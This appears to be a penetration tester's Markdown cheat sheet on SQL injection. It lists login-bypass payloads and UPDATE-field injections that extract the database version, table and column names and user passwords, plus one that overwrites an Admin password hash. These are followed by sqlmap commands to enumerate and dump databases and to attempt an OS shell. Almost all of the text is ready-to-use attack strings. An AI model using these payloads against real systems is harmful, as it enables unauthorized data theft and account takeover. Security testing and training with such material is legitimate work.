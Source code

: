 # SQL Injection

```bash
# Input non string 
1 or 1=1-- -

# Input string
1' or '1'='1'-- -

# URL Injection for bypass clinet-side control
http://<url>/login?profile=-1' or 1=1-- -&password=a

# POST Injection
# -> Capture the request with tool like Burp and build the request what you want for remove controls modifiction into

# Update Injection
# In a form for change any information. first, if the source code field name is like the database columns
asd',nickName='test',email='test
# For retrieve database engine and version
# MySQL and MSSQL
',nickName=@@version,email='
# For Oracle
',nickName=(SELECT banner FROM v$version),email='
# For SQLite
',nickName=sqlite_version(),email='
# Return tables from sqlite db
',nickName=(SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'),email='
# Extract name columns
',nickName=(SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='<name_table>'),email='
# With the name columns, extract values
',nickName=(SELECT group_concat(profileID || "," || name || "," || password || ":") from usertable),email='
# Update password in db
', password='<hash>' WHERE name='Admin'-- -
```

---

# SQLMAP

```bash
$ sqlmap -h
$ sqlmap -hh
```

### Wizard

```bash
$ sqlmap --wizard
```

# Simple Commands examples

```bash
# Multiple test with parameters
$ sqlmap -u <url> --data=<string_post> --level=<level>
$ sqlmap -u <url> --data="id=1"

# Try to spawn shell
$ sqlmap -u <url> --data=<string_post> --os-shell
```

---

# Process GET and POST

Capture request with Burp and save result in file (for the post requests).

Find DB

```bash
$ sqlmap -u <url> --dbs
# OR
$ sqlmap -r <request_file> -p <vulnerable_parameter> --dbs
```


Find tables

```bash
$ sqlmap -u <url> -D <database_name> --tables
# OR
$ sqlmap -r <request_file> -p <vulnerable_parameter> -D <db_name> --tables
```

Extract tables 

```bash
$ sqlmap -u <url> -D <db_name> -T <table_name> --columns
# OR
$ sqlmap -r <request_file> -D <database_name> -T <table_name> --columns
```

---

Dump all databases and tables 

```bash
$ sqlmap -u <url> -D <database_name> --dump-all
# OR
$ sqlmap -r <request_file> -D <database_name> --dump-all
```
